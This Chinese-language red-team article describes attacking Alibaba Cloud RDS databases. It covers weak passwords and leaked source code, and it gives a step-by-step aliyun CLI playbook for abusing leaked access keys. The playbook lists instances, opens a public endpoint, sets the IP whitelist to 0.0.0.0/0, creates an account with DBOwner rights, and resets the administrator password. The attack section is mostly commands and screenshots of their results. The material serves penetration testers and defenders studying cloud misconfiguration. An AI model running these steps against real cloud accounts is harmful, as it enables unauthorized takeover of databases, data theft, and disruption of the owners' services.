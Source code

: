 ```yaml
---
title: 阿里云 RDS 云数据库攻防
id: aliyun_rds
---
```


# 一、RDS存在的风险

## 1、弱口令

其实在设置密码的时候可以发现，设置的密码是强制大写加小写字母与数字的，如果这样组合，其实不一定存在弱口令，但是试了一下Qwe123123这种密码，发现居然可以，那么就可以确定，至少存在键盘弱口令的。

![image-20220401120528194](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401120528194.png)

虽然实战中遇到的几率很小，但是至少也是一个问题

## 2、源码泄露

![image-20220401115956407](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401115956407.png)

这个在实战中碰到的次数比较多，不过大部分都有一些局限的情况

1、服务部署在VPC内网，没有申请公网访问地址，所以无法通过公网连接，只能在VPC中通过内网地址连接

2、白名单的问题，如果想公网通过地址连接需要满足两个条件

- 1、申请了公网地址，并且泄露
- 2、白名单设置为0.0.0.0/0

![image-20220401122852048](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401122852048.png)

不过在一次红蓝中，通过公网的GIT泄露发现了泄露的源码，也就是上图，RDS和内网IP的数据库都无法连接，不过在打进云上内网后，通过frp，使用这些地址是可以连接的

![image-20220401121215753](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401121215753.png)

## 3、密钥泄露如何进行利用

### 3.1、获取所有DB实例

```bash
aliyun rds DescribeDBInstances
```

![image-20220401144309898](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401144309898.png)

此时会列出所有的RDS信息，可以看到所在的地区，连接的地址，版本，服务类型，我们注意到有一个DBInstanceID，然后我们可以使用以下命令获取指定实例ID下更详细的信息

```bash
 aliyun rds DescribeDBInstanceAttribute --DBInstanceId xxxx
```

![image-20220401144755824](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401144755824.png)

这里可以看到实例的安全组等

### 3.2、申请公网访问地址

##### 查看是否存在公网访问地址

```bash
aliyun rds DescribeDBInstanceNetInfo --DBInstanceId xxx
```

![image-20220401145646520](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401145646520.png)

在这里我们可以看到RDS的访问地址，如果不存在公网访问地址的话，我们可以申请一个

> 下图就是没有公网地址的返回结果

![image-20220401145920493](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401145920493.png)

那么我们尝试申请一个

##### 申请公网访问地址

```bash
aliyun rds AllocateInstancePublicConnection --DBInstanceId xxxx --Port 1433 --ConnectionStringPrefix uzjuse
```

![image-20220401150126571](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401150126571.png)

可以看到我们申请了一个公网地址，尝试访问试试

![image-20220401150350698](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401150350698.png)

![image-20220401150456486](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401150456486.png)

此时我们还无法访问，所以要添加白名单

### 3.3、添加白名单

#### 查询指定RDS白名单

```bash
aliyun rds DescribeDBInstanceIPArrayList --DBInstanceId xxx
```

在添加白名单之前，我们首先要先查看一下白名单，在下图中可以看到，白名单显示，只允许127.0.0.1访问，下面一条是阿里云的默认安全组，用来做备份用的

![image-20220401150639629](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401150639629.png)

#### 为指定实例添加白名单

```bash
 aliyun rds ModifySecurityIps --DBInstanceId xxxxx --SecurityIps 0.0.0.0/0
```

![image-20220401151003122](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401151003122.png)

![image-20220401151051605](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401151051605.png)

### 3.4、创建账号

我们可以通过以下命令查询当前RDS中有哪些用户

```bash
aliyun rds DescribeAccounts --DBInstanceId xxx
```

![image-20220401151936422](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401151936422.png)

```bash
aliyun rds CreateAccount --AccountName UzJuSecTest --AccountPassword Qwe123123 --DBInstanceId xxxx
```

![image-20220401151450854](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401151450854.png)

![image-20220401151527721](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401151527721.png)

那么如果这个时候，我们连接上去，看到一个数据库，没有权限怎么办？

![image-20220401151748905](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401151748905.png)

### 3.5、为账号添加数据库权限

#### 查询数据库有哪些

```bash
aliyun rds DescribeDatabases --DBInstanceId xxx
```

在为自己添加权限之前，我们需要知道，我们想看哪个数据库，或者从上面NaviCat的链接信息中也可以看到

![image-20220401152117237](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152117237.png)

#### 为自己添加uzju数据库的权限

```bash
aliyun rds GrantAccountPrivilege --AccountName UzJuSecTest --AccountPrivilege DBOwner --DBName uzju --DBInstanceId xxx
```

![image-20220401152409113](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152409113.png)

![image-20220401152514495](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152514495.png)

现在我们已经拥有了这个数据库的操作权限

### 3.6、直接修改高权限账号的密码

那么既然我们上面的步骤很繁琐，可不可以直接修改管理员的密码呢，答案是可以的，不过在真实环境中，修改管理员密码有可能会对业务造成不可挽回的后果

```bash
aliyun rds ResetAccountPassword --AccountName uzju --AccountPassword Qwe123123 --DBInstanceId 
```

![image-20220401152746592](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152746592.png)

在之前我们已经知道了Super账号的用户名，那么我们将密码修改为Qwe123123，随后尝试连接

![image-20220401152842812](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152842812.png)

![image-20220401152848201](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152848201.png)

![image-20220401152935833](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220401152935833.png)

# 二、总结

RDS的攻击面基本都来自于用户侧配置问题，并且很多RDS都不会放在公网，而是在VPC的内网中，那么我们如果在公网中找到一个泄露了RDS账号与密码，可以保留起来，打进内网的时候也许能派上用场，并且在AK泄露的时候，我们也是需要拥有一定的权限，才可以做这些操作

遇到AK泄露，常规的利用方法无非就是三种

1、手动去调API（费时费力，属于盲猜的一种形式）

2、用行云管家这种工具

3、自己写工具，体力活，堆API
